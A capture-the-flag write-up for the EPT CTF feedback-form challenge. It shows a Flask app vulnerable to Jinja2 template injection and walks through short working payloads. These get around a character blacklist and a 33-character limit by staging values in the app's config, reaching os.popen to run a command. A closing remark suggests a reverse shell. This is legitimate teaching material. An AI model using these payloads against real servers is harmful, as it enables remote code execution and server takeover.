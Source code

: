 # Writeup for EPT CTF feedback form

The goal in this challenge is the get RCE and execute the `/flag` file to get the flag.
By looking at the code we notice something strange:

```python
@app.route('/success', methods=['POST'])
def success():
    name = request.form.get('name')
    challengequality = request.form.get('challengequality')
    othercomments = request.form.get('othercomments')
     
    if name:
        bad_chars = [*"'_#&;"]
        if any(char in bad_chars for char in name):
            random.shuffle(bad_chars)
            flash(f"The following characters are not allowed: {''.join(bad_chars)}")
            app.logger.warning(f"Filtered: {name}")
            return redirect(url_for('index'))
        elif len(name)>33:
            flash(f"Name max length is 33")
            app.logger.warning(f"Name length restriction")
            return redirect(url_for('index'))
        #saving feedback to db
        if challengequality:
            open('/dev/null', 'w').write(challengequality)
        if othercomments:
            open('/dev/null', 'w').write(othercomments)
        app.logger.warning(name)
        template = open('templates/success.html', 'r').read()
        template = template.replace("{{ name }}", name)
        return render_template_string(template)
    else:
        return redirect(url_for('index'))
```

Instead of rendering from a template file, the app opens the template file and replaces "{{ name }}" with the `name` variable before calling `render_template_string`.
This is very unsafe to do, since it makes it vulnerable to server side template injection attacks (SSTI).

If we set the name param to `{{ 6*6 }}` the website shows

![](https://i.imgur.com/GOu7769.png)


We can also see in the code that there is a length limit for the name variable. Only 33 characters are allowed.. Server side template injection code for Jinja2 (template engine) usually needs
to be quite long in order to get RCE, so this limit will be a big challenge for us.

There are also a list with bad characters we are not allowed to include in the name parameter. Since the "_" character is blacklisted, we cannot use attributes like "__class__" or "__globals__",
which one usually need to find functions that can lead to RCE.

Let's split this problem up into two: Length limit and blacklist bypass

## Blacklist bypass
Since only the name parameter is being checked for bad characters, we can create our own param (a) and fetch the value using `request.args.a`
```html
$ http --form http://io5.ept.gg:32625/success a==__globals__ name={{request.args.a}}

<h1 class="display-6 fw-bold">Thank you for the feedback __globals__</h1>
<p> We read all feedback carefully! </p>
```

The blacklist has been bypassed as we can see `__globals__` in our response.

## Length limit bypass
The length limit is harder to bypass, and we did not find any cheesy way to do this. However, we found a way to store our variables permanently, so that we could use those values in the next requests.
A Flask app always has a `config` dictionary contains all of the configurations for the application. We have access to this from the template engine, and can store values there by updating the dict.
The config dictionary can be reached from Jinja2 as `config`. Let's try to update it with our own value, by using request.args.

```console
$ http --form http://io5.ept.gg:32625/success a==__globals__ name="{{config.update(request.args)}}"

$ http --form http://io5.ept.gg:32625/success a==__globals__ name="{{config.a}}"
> Thank you for the feedback __globals__
```

When we try to get `config.a` we can now see the value we wrote to the config is `__globals__`.

The plan is to find a short payload which gives us RCE, and then slowly but steady build it by using `config` as temporal storage. A short payload we can use is
`{{ lipsum.__globals__.os.popen("/flag").read() }}`

For every attribute or method we access, we can store it in config under a new key. Then we can use the new key to store the next attribute in the config.
This way we will eventually reach `popen` and can then execute our command.

The only problem about this is the length limit, since `{{config.update(b=lipsum[config.a])}}` 37 characters...
But what if we update the config with a key `b` that is `config.update`? Then we can just use `config.b` instead of `config.update` and we got a shorter payload.

Since `{{config.update(b=config.update)}}` is too long, we can put `config.update` in a variable first and then use that variable 2 times. We an do this using `{% set %}` in Jinja2:
`{%set x=config.update%}{{x(b=x)}}` is 33 characters exactly, so this will work!

```console
$ http --form http://io5.ept.gg:32625/success a==__globals__ name="{%set x=config.update%}{{x(b=x)}}"
```

After doing this we can store the first part of our payload `lipsum.__globals__` in config.c:
```console
$ http --form http://io5.ept.gg:32625/success name="{{config.b(c=lipsum[config.a])}}"
```

then we store `os` in config.d:
```console
$ http --form http://io5.ept.gg:32625/success name="{{config.b(d=config.c.os)}}"
```

Our final store is `popen` which gets stored in config.e:
```console
$ http --form http://io5.ept.gg:32625/success name="{{config.b(e=config.d.popen)}}"
```

At last we can now run the `/flag` program, so let's complete the challenge :)

```console
$ http --form http://io5.ept.gg:32625/success name='{{config.e("/flag").read()}}'

> Thank you for the feedback EPT{H0w_sh0rt_w4s_y0ur_p4yl0ad?}
```

Flag: `Thank you for the feedback EPT{H0w_sh0rt_w4s_y0ur_p4yl0ad?}`

PS: Since we can store URL params in config, we can store a really long command that gets executed, like for example a reverse shell to get full access on this server :)